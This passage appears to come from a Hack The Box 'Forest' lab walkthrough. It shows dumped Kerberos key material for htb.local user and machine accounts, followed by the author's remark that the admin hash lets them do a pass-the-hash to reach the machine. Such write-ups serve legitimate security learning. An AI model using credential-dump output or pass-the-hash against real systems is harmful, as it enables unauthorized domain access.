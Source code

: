 ```
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
orlando:aes256-cts-hmac-sha1-96:4d8a9ad19dd956c71983c6f5acf09ec76fef855a0ac396effe20a0a73d1fc600
orlando:aes128-cts-hmac-sha1-96:ff6524667598b922c9009ee201c3fe36
orlando:des-cbc-md5:a494ad54cbf4b901
FOREST$:aes256-cts-hmac-sha1-96:372b77e60bab0a9a1ea565a320803bd3dea3e4298dc24ade50c6b13a38493375
FOREST$:aes128-cts-hmac-sha1-96:5045463423fdccb7aaf627e61c78cc2d
FOREST$:des-cbc-md5:58070868e58a3e4a
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129

```

Now I have an admin hash through which I can do a passthehash to access the machine.

![image.png](FOREST%20114948dbd501456c95254c4d0cfbb98c/image%2040.png)

![image.png](FOREST%20114948dbd501456c95254c4d0cfbb98c/image%2041.png)
